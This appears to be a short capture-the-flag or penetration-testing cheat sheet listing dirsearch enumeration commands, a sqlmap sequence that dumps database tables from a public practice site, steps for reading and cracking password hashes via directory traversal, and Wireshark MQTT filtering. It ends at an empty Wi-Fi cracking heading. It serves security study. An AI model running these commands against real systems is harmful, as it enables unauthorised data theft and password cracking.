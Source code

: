  
Directory traversal after dirsearch or gobuster or dirb or dirbuster
dirsearch -u https://example.com
or 
dirsearch -e php,html,js,txt -u https://example.com -> for extension search
or
dirsearch -e php,html,js,txt -u https://example.com -w /usr/share/wordlists/dirb/common.txt -> for wordlist search



######################################################################################################################################
SQL Injection


https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/

use SQLMap and a vulnerable url on the website to dump user info.
Get all databases using sqlmap
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
Get tables from a selected database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name --tables 
Get all columns from a selected table_name in the database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name --columns
Dump the data from the columns 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name -C column_name --dump


######################################################################################################################################
Directory Traversal and Hashing

 
The site is vulnerable to directory traversal and local file inclusion
Navigate to the location of the file and open it
copy the hash value and use either crackstation from the internet to crack it or https://hashes.com/en/decrypt/hash



######################################################################################################################################
Wireshark

 
Open the .pcap file with wireshark
Type “MQTT” in the filter bar and press enter
Look for MQTT publish messages in the packet list. 
MQTT publish messages typically have a PUBLISH message type.
Get the message length


######################################################################################################################################
WIFI Cracking

 